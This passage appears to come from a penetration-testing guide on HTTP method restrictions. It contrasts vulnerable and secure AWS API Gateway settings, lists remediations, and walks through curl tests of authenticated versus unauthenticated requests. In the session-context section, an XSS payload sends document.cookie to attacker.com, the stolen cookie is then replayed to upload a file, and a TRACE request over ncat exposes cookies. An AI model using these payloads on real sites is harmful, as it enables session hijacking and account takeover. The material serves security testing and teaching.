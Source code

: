 **Example Vulnerable Configuration (AWS API Gateway)**:
```json
{
  "httpMethod": "ANY",
  "authorizationType": "NONE"
}
```
Test: `PUT /api/v1/resource`
Result: Processed despite restrictions.

**Example Secure Configuration (AWS API Gateway)**:
```json
{
  "httpMethod": ["GET", "POST"],
  "authorizationType": "AWS_IAM"
}
```
Test: `HTTP/1.1 403 Forbidden`.

**Remediation**:
- Configure WAF rules (Cloudflare):
  ```text
  Block requests with X-Forwarded-Method
  ```
- Restrict API Gateway methods:
  ```bash
  aws apigateway update-method --rest-api-id <api-id> --resource-id <resource-id> --http-method DELETE --authorization-type AWS_IAM
  ```
- Validate headers:
  ```python
  if 'X-Forwarded-Method' in request.headers:
      return Response(status=400)
  ```

**Tip**: Save proxy/gateway test evidence in a report.

### 7. Testing Authentication and Session Context

**Objective**: Test HTTP method restrictions based on authentication and session context.

**Detection/Exploitation**: Exploitable, Proof of Concept provided

**Steps**:
1. Gray-box: Authenticated vs. unauthenticated:
   - Unauthenticated:
     ```bash
     curl -X DELETE http://example.com/resource
     ```
   - Authenticated:
     ```bash
     curl -X DELETE http://example.com/resource -H "Cookie: session=abc123"
     ```
   - Check for: `HTTP/1.1 403 Forbidden` (unauthenticated) vs. `200 OK` (authenticated).
2. Session hijacking chain:
   - Steal session cookie via XSS:
     ```javascript
     document.location='http://attacker.com?cookie='+document.cookie;
     ```
   - Use stolen cookie:
     ```bash
     curl -X PUT http://example.com/test.html -H "Cookie: session=abc123"
     ```
   - Verify file upload.
3. Cookie exposure in TRACE:
   - Send:
     ```bash
     echo -e "TRACE / HTTP/1.1\nHost: example.com\nCookie: session=abc123\n\n" | ncat example.com 80